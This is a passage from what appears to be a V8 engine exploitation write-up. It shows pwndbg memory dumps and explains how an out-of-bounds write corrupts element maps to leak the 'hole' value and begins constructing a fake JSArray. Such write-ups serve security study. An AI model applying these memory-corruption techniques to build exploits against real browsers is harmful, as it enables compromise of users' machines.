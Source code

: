 ```
pwndbg> x/30gx 0x0880001c05d5-1
0x880001c05d4:  0x0000003200000565      0x001c064d001c0641    ## double[0] -> 0x880001c0641
0x880001c05e4:  0x001c0665001c0659      0x001c067d001c0671
0x880001c05f4:  0x001c0695001c0689      0x001c06ad001c06a1
0x880001c0604:  0x00000761001c06b9      0x0000076100000761
0x880001c0614:  0x0000076100000761      0x0000076100000761
0x880001c0624:  0x0000076100000761      0x0000076100000761
0x880001c0634:  0x3ff199999999999a      0x400199999999999a
0x880001c0644:  0x400a666666666666      0x401199999999999a
0x880001c0654:  0x4016000000000000      0x401a666666666666
0x880001c0664:  0x401ecccccccccccd      0x402199999999999a
0x880001c0674:  0x4023cccccccccccd      0x4024333333333333
0x880001c0684:  0x40263851eb851eb8      0x40283d70a3d70a3d
0x880001c0694:  0x402a428f5c28f5c3      0x402c47ae147ae148
0x880001c06a4:  0x401ecccccccccccd      0x9999999a00000515
0x880001c06b4:  0x0000051540219999      0x4023cccccccccccd
```

As we can see above we can corrupt the value of elements. Since the map of any object in v8 is fixed value, we can change the map of heap element into that of `Hole`. Using this we can leak the hole value.

> There were a couple of different ways to exploit using `hole` values in v8. One of the most prominent one being using hole value along `Map` (JavaScript Map) to change its capacity to -1. Other one is using the fact that `hole` was a valid `JSObject` and using operations like `ToNumber` would have issues with the Typer leading to memory corruption. Sadly using map is no longer possible.
{: .prompt-tip }

### Using the Garbage Collector

Similarly to the hole leaking technique, we can try to construct a fake array using the out of bounds write. Let's `DebugPrint` an array to see what fields we need to fake.

```
pwndbg> job 0x3a200019b879
0x3a200019b879: [JSArray]
 - map: 0x3a2000189c39 <Map[16](PACKED_DOUBLE_ELEMENTS)> [FastProperties]
 - prototype: 0x3a20001895a5 <JSArray[0]>
 - elements: 0x3a200019b859 <FixedDoubleArray[3]> [PACKED_DOUBLE_ELEMENTS]
 - length: 3
 - properties: 0x3a2000000745 <FixedArray[0]>
 - All own properties (excluding elements): {
    0x3a20000061ed: [String] in ReadOnlySpace: #length: 0x3a20000266c1 <AccessorInfo name= 0x3a20000061ed <String[6]: #length>, data= 0x3a2000000011 <undefined>> (const accessor descriptor, attrs: [W__]), location: descriptor
 }
 - elements: 0x3a200019b859 <FixedDoubleArray[3]> {
           0: 1.2698e-310
           1: 2.2
           2: 3.3
 }
pwndbg> x/2gx 0x3a200019b879-1
0x3a200019b878: 0x0000074500189c39      0x000000060019b859
pwndbg> job 0x3a200019b859
0x3a200019b859: [FixedDoubleArray]
 - map: 0x3a20000008a1 <Map(FIXED_DOUBLE_ARRAY_TYPE)>
 - length: 3
           0: 1.2698e-310
           1: 2.2
           2: 3.3
pwndbg> x/2gx 0x3a200019b859-1
0x3a200019b858: 0x00000006000008a1      0x00001760000008a1
```
